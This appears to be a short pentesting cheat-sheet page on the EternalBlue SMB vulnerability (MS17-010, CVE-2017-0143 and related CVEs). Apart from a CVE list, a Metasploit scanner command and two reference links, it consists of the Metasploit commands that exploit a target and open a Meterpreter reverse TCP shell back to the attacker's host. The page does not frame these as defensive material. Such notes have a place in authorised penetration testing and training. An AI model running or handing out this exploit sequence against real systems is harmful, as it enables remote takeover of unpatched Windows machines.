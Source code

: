 ```yaml
---
title : "CVE-2017-0143"
# pre : ' '
description : "EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol."
date : 2020-03-23T11:14:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-0143 | MS17-010

* MS17-010
* CVE-2017-0143
* CVE-2017-0144
* CVE-2017-0145
* CVE-2017-0146
* CVE-2017-0148
* CVE-2017-0147

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

### URL list

* [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
